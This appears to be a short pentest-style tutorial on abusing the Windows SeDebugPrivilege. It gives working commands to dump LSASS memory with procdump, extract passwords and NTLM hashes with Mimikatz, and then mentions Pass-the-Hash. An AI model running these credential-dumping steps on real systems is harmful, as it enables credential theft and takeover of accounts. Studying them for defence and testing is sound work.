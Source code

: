 # What is SeDebugPrivilege?

`SeDebugPrivilege` is a special Windows permission that allows a user to inspect, control, or manipulate any process on the system, even those running as SYSTEM, the most powerful user on Windows.

- If you're not an administrator but have SeDebugPrivilege, you can:
- Dump LSASS memory (contains usernames, NTLM hashes, even cleartext passwords).
- Extract credentials using tools like Mimikatz.
- Elevate to SYSTEM using PowerShell tricks.


```bash
whoami /priv

# Output Example:
SeDebugPrivilege    Debug programs    Disabled
```
🔸 "Disabled" is okay — if it shows up, we can still use it!

### 1. Dump LSASS Memory

```bash
procdump.exe -accepteula -ma lsass.exe lsass.dmp
```
 This creates a memory dump file: `lsass.dmp`.


###  2. Extract Credentials Using Mimikatz
Run Mimikatz:

```bash
mimikatz.exe
```
Inside Mimikatz, enter:

```bash
log                                # Saves all output to a log file
sekurlsa::minidump lsass.dmp       # Load LSASS memory
sekurlsa::logonpasswords           # Extract stored credentials
```
Once you get the hash you can  use it for Pass The Hash attack

